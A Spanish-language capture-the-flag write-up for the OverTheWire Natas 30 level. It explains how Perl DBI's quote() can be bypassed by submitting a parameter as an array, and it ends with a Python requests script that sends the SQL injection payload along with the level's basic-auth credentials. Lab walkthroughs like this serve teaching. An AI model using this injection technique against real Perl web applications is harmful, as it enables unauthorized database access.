 Este código Perl verifica si el método de solicitud es "POST" y si se proporcionan un nombre de usuario y una contraseña. Si es así, establece una conexión a la base de datos, forma una consulta usando `$dbh->quote(param())`, y la ejecuta. Si hay un resultado, se imprime; de lo contrario, se muestra "fail :(".

Aunque la inyección SQL parece una posible vulnerabilidad, intentos comunes como `' OR 1=1 --` no funcionan. Será necesario explorar otras posibles fallos.

Como `$dbh->quote(param())` es el encargado de interpretar nuestra entrada y agregarla a la consulta, pensé que debería revisarlo primero. Si existe alguna vulnerabilidad en este punto, sería suficiente para inyectar una cadena maliciosa en la consulta SQL.

Busqué "perl sql injection" y encontré un resultado que apareció entre los primeros. Puedes consultar la discusión completa sobre la vulnerabilidad en conexiones de bases de datos en Perl en la siguiente página de Stack Exchange: [Is this Perl database connection vulnerable to SQL injection?](https://security.stackexchange.com/questions/175703/is-this-perl-database-connection-vulnerable-to-sql-injection/175872#175872)

En el código fuente, se espera un nombre de usuario y una contraseña, pero no se restringe a que solo se proporcione un valor para cada uno. Esto significa que podríamos enviar varios valores, lo que convertiría uno de los parámetros en un array.

Además, si `quote()` se llama con una lista de valores y el segundo es un entero, `quote()` podría devolver un valor sin comillas. Es decir, al proporcionar un array, se podría invocar la segunda definición de `quote()` en lugar de la primera, que es la que se esperaba usar.

```perl
$sql = $dbh->quote($value);
$sql = $dbh->quote($value, $data_type);
```

El código que proporcionamos realiza una solicitud HTTP POST autenticada a un sitio web, pasando datos específicos como parámetros. Usamos una sesión de `requests` para gestionar la autenticación básica y enviamos un conjunto de parámetros a la URL especificada. Luego, imprimimos la respuesta del servidor.

```python
import requests

# Crear una función para manejar la solicitud
def make_request(username, password):
    # Crear una sesión
    with requests.Session() as session:
        # Configurar la autenticación básica
        session.auth = ('natas30', 'WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH')
        
        # Definir la URL
        url = "http://natas30.natas.labs.overthewire.org/index.pl"
        
        # Configurar los parámetros de la solicitud
        data = {
            "username": username,
            "password": ["'lol' or 1", 4]
        }
        
        # Realizar la solicitud POST
        response = session.post(url, data=data, verify=False)
        
        return response.text

# Llamar a la función con los parámetros necesarios
response_text = make_request("natas28", "'lol' or 1")
print(response_text)
```
